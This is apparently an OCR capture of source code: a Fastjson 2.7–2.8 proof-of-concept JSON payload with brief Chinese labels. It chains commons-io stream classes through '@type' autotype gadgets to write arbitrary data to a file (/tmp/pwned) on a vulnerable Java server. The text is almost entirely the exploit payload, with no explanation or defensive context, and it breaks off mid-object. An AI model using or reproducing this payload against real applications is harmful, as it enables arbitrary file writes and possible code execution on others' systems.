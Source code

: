 

2.7-2.8版本POC：

```json
{
    "x": {
        "@type": "com.alibaba.fastjson.JSONObject",
        "input": {
            "@type": "java.lang.AutoCloseable",
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
                "@type": "org.apache.commons.io.input.CharSequenceReader",
                "charSequence": {
                    "@type": "java.lang.String""aaaaaa...(长度要大于8192，实际写入前8192个字符)",
                    "start": 0,
                    "end": 2147483647
                },
                "charsetName": "UTF-8",
                "bufferSize": 1024
            },
            "branch": {
                "@type": "java.lang.AutoCloseable",
                "@type": "org.apache.commons.io.output.WriterOutputStream",
                "writer": {
                    "@type": "org.apache.commons.io.output.FileWriterWithEncoding",
                    "file": "/tmp/pwned",
                    "charsetName": "UTF-8",
                    "append": false
                },
                "charsetName": "UTF-8",
                "bufferSize": 1024,
                "writeImmediately": true
            },
            "trigger": {
                "@type": "java.lang.AutoCloseable",
                "@type": "org.apache.commons.io.input.XmlStreamReader",
                "inputStream": {
                    "@type": "org.apache.commons.io.input.TeeInputStream",
                    "input": {
                        "$ref": "$.input"
                    },
                    "branch": {
                        "$ref": "$.branch"
                    },
                    "closeBranch": true
                },
                "httpContentType": "text/xml",
                "lenient": false,
                "defaultEncoding": "UTF-8"
            },
            "trigger2": {
                "@type": "java.lang.AutoCloseable",
                "@type": "org.apache.commons.io.input.XmlStreamReader",
                "inputStream": {
                    "@type": "org.apache.commons.io.input.TeeInputStream",
                    "input": {
                        "$ref": "$.input"
                    },
                    "branch": {
                        "$ref": "$.branch"
                    },
                    "closeBranch": true
                },
                "httpContentType": "text/xml",
```